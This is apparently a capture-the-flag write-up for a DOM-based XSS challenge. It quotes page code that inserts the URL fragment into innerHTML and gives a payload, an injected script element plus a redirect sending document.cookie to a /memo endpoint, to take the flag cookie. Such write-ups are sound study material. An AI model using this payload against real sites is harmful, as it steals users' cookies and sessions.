 # XSS - DOM

At first, we can see that there is an serious xss vuln in the /vuln page

```
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
 </script>
```

You can create a script with an id "name" and insert a code after the tag. The malicious code will automatically execute

```
<script id="name">
alert(123);
</script>
```

So we only need to inject this payload to get the cookie that contain the flag

Before the #: <script id= "name"></script>
After the #: location='/memo?memo='+document.cookie//

You can find the flag on your own
